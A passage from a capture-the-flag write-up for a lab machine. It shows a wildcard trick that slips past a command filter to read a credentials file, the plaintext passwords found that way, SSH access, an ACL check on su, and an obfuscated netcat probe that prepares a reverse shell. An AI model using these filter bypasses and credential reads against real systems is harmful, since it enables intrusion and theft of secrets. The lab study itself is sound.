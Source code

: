 It says that the command is not allowed, so there is some kind of filter.
When going through each word and execute it, only the word _"credentials"_ outputs this error. So the filter can be bypassed by a _wildcard (*)_ character:
```markdown
cat /home/loki/cred*; echo
```

Now it shows the contents of the file:
```markdown
pass: lokiisthebestnorsegod
```

The password works on SSH as the user _loki_ and shell access is gained:
```markdown
ssh loki@10.10.10.92
```

## Privilege Escalation

After looking through the files in the home directory of _loki_, the _.bash_history_ has some different credentials:
```markdown
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
(...)
```

When trying to change users with `su`, it says _"Permission denied"_ even though the permissions look correct on the binary:
```markdown
-rwsr-xr-x+ 1 root root 44664 Jan 25  2018 /bin/su
```

There could be an **Access Control List** rule set for this binary that can be checked with `getfacl`:
```markdown
getfacl /bin/su
```
```markdown
flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

The user _loki_ only has read access for the binary but everyone else can execute it.
We know that the service on port 80 is ran by _www-data_, so a reverse shell has to be started from there.

### Getting a shell as www-data

All filters that need to be bypassed can be found in _/var/www/html/index.php_.
```markdown
/bin/n? -h 2>&1; echo
```
